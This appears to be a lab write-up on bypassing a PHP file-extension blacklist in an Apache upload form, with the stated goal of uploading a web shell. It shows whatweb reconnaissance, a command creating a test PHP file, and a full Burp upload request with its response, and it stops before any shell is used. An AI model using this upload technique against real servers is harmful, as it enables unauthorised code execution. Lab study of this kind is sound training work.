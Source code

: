 ### Bypassing PHPx Blacklists

#### Lab Environment

**Vulnerable Apache V**

Apache is probably the most popular web server on the World Wide Web with millions of deployments! In this series of challenges, we hope to explore how attackers can exploit webapps running on Apache  arising due to server misconfigurations and/or application vulnerabilities. Take a look at the scenario below.

The target server has not been properly secured against <u>arbitrary file upload</u> and <u>execution vulnerability</u>. <u>The administrator has used a blacklisting approach but forgotten to add other executable file extensions to this list</u>.
This example also proves why <u>blacklisting is not considered a good security measure</u>.

**Objective**: Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag!

#### Lab Solution

`whatweb https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/`:
```
https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/ [200 OK] Apache, Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[172.104.136.144], JQuery, PHP[5.5.9-1ubuntu4.25], Script, X-Powered-By[PHP/5.5.9-1ubuntu4.25]📌
```

`echo '<?php echo "test" ?>' > ./test.php`

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3258681235955572122686784594
Content-Length: 252
Origin: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
Referer: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------3258681235955572122686784594
Content-Disposition: form-data; name="fileToUpload"; filename="test.php"📌
Content-Type: application/x-php📌

<?php echo "test" ?>

-----------------------------3258681235955572122686784594--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 14:21:13 GMT
Server: Apache
Vary: Accept-Encoding
```